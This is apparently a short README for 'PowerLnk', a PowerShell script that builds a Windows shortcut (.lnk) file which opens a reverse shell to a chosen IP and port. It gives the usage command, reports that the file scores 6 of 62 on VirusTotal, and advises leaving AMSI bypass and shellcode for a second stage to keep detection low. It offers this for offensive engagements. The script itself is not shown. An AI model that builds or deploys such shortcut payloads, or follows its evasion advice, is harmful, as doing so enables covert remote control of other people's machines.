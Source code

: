# PowerLnk
generates a .Lnk file that executes a reverse shell in powershell

# Useage
script take two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 6/62 on virus total, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.
